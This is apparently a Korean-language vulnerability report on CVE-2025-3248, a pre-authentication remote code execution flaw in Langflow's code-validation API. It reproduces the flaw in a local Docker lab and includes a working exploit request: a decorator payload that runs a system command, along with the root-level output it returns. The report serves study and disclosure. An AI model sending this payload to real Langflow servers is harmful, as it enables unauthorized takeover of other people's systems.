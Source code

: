 # CVE-2025-3248 Langflow `validate/code` API 인증 우회 원격 코드 실행 취약점 분석 보고서

## 📌 개요

본 보고서는 Langflow 1.2.0 버전 이하에서 발생하는 인증 우회 원격 코드 실행(Remote Code Execution, RCE) 취약점(CVE-2025-3248)에 대해 분석하고, Docker 환경에서 재현(PoC)한 결과를 문서화한 것입니다.

취약점은 `/api/v1/validate/code` 엔드포인트에서 사용자로부터 전달된 Python 코드를 `exec()` 함수를 통해 실행할 때 발생합니다. 함수 정의 시 실행되는 decorator 또는 default argument 표현식을 악용해 인증 없이 임의의 명령어를 실행할 수 있습니다.

---

## 🔍 취약점 정보

| 항목 | 내용 |
|------|------|
| CVE 번호 | CVE-2025-3248 |
| 영향받는 제품 | Langflow < 1.3.0 |
| 취약점 유형 | 인증 우회 원격 코드 실행 (Pre-auth RCE) |
| 취약점 위치 | `/api/v1/validate/code` |
| 심각도 | ★ Critical |
| 공식 패치 | [v1.3.0 릴리즈](https://github.com/langflow-ai/langflow/releases/tag/1.3.0) |

---

## ⚙️ 실습 환경 구성

```bash
git clone https://github.com/내아이디/vulhub.git
cd vulhub/langflow/CVE-2025-3248
docker compose up -d

접속 주소: http://localhost:7860

기본 계정: administrator / vulhub

Burp Suite 요청

POST /api/v1/validate/code HTTP/1.1
Host: localhost:7860
Content-Type: application/json

{
  "code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"
}

응답 결과
{
  "function": {
    "errors": [
      "b'uid=0(root) gid=0(root) groups=0(root)\\n'"
    ]
  }
}
